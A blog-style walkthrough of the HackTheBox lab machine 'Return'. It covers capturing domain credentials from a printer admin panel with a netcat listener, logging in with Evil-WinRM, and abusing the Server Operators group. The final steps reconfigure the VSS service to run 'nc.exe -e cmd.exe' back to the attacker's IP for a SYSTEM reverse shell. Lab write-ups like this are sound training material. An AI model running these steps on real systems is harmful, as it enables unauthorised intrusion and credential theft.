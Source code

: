 ```yaml
---
layout: single
title: HackTheBox - Return Writeup
permalink: /hackthebox-return-writeup/
excerpt: "Return is an easy machine from the HacktheBox platform. This machine has the webserver which is the Admin Printers Panel without authentication need it to view it and can easily grab the credentials. It also has a user that belongs to the Server Operators group that we can abuse and gain the system shell."
classes: wide
header:
  teaser: "/assets/images/htb/return/return.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
  - writeup
tags:
  - file-misconfiguration
  - printer
  - group-server_operators
  - sc.exe
  - evil-winrm
---
```


![1](/assets/images/htb/return/return.png)

### <font color="#9bffc8">Nmap</font>

First, let's start scanning the IP address with the Nmap.

#### result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

### <font color="#9bffc8">Http</font>

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.

![1](/assets/images/htb/return/printer-home.png)

It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!

![1](/assets/images/htb/return/printer-settings.png)

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

### <font color="#9bffc8">NetCat</font>

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.

![1](/assets/images/htb/return/printer-tun0.png)

![1](/assets/images/htb/return/nc-clear-pass.png)

In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

### <font color="#9bffc8">Evil-WinRM</font>

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.

![1](/assets/images/htb/return/evil-winrm-svc-printer.png)

YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

### <font color="#9bffc8">Server Operators</font>

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 

![1](/assets/images/htb/return/whoami-all.png)

Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

### <font color="#9bffc8">nc.exe</font>

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.

![1](/assets/images/htb/return/nc-exe-download.png)

### <font color="#9bffc8">System Shell</font>

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```

![1](/assets/images/htb/return/system-shell.png)

TA DAAA!!! now I'm an `authority\system`.